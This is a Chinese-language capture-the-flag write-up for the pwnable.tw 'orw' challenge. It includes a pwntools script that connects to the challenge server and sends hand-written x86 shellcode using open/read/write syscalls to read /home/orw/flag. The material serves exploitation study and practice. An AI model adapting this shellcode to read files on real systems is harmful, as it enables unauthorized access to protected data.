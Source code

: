 pwnable.tw 学习 orw

参考：

    http://dogewatch.github.io/2017/04/10/pwnable.tw-Part1/
	http://www.reshahar.com/2017/05/20/pwnable-tw-orw%E8%A7%A3%E6%9E%90/
	
# start 

做题步骤：
通过ida查看汇编代码或者用gdb的checksec可以发现这个程序看起了CANNARY防护功能，不过无所谓，我们在这里用不到栈溢出，因为可以直接布置shellcode然后执行。同时题目描述还说了’Read the flag from /home/orw/flag.Only open read write syscall are allowed to use.’。因此这个题目就变成了如何写汇编来使用这三个系统调用来读取指定文件。我们可以先写一个伪C代码：

char* file = 'home/orw/flag';
sys_open(file,0,0);
sys_read(3,file,0x30);
sys_write(1,file,0x30);
把这段代码转成汇编代码就是shellcode，最终的payload如下：

from pwn import *

debug = False

if debug:
	s = process('./orw')
	context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
	gdb.attach(proc.pidof(s)[0])
else:
	s = remote('chall.pwnable.tw',10001)

shellcode = ''
shellcode += asm('xor ecx,ecx;mov eax,0x5; push ecx;push 0x67616c66; push 0x2f77726f; push 0x2f656d6f; push 0x682f2f2f; mov ebx,esp;xor edx,edx;int 0x80;')
shellcode += asm('xchg ecx,ebx;mov bl,0x3;mov dl,0x30;int 0x80;')
shellcode += asm('mov eax,0x4;mov bl,0x1;int 0x80;')

def pwn():
	recv = s.recvuntil(':')
	print recv
	s.sendline(shellcode)
	flag = s.recv()
	print flag

pwn()
